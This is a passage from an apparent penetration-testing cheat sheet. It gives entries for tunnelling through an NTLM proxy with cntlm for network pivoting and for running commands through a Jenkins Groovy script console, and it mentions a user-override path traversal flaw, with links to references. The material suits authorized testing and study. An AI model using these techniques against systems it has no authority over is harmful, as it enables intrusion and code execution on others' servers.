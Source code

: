 https://www.reddit.com/r/sysadmin/comments/3y0pad/some_ad_checks_you_should_be_running_on_a_regular/
__________
### 157. NTLM aware proxy client, proxychains
```
echo "Username [user]" >> config; echo "Password [pass]" >> config; echo "Domain [domain]" >> config; echo "Proxy [proxyIP]" >> config; echo "Tunnel [lport]:[lip]:[rport]" >> config; cntlm.exe -c config.conf
```
**- linux,pivoting,Windows**
#### References:

https://artkond.com/2017/03/23/pivoting-guide/
http://cntlm.sourceforge.net/	
__________
### 158. Execute GroovyScript on Jenkins, You can also execute commands when ReBuilding projects. Also user addition has a path traversal vuln allowing you to override users when registering.
```
def process = "ls -l".execute();println "Found text ${process.text}"
```
**- linux,web application,Windows,code execution,Groovy**
#### References:

https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/
https://highon.coffee/blog/jenkins-api-unauthenticated-rce-exploit/
https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console
__________
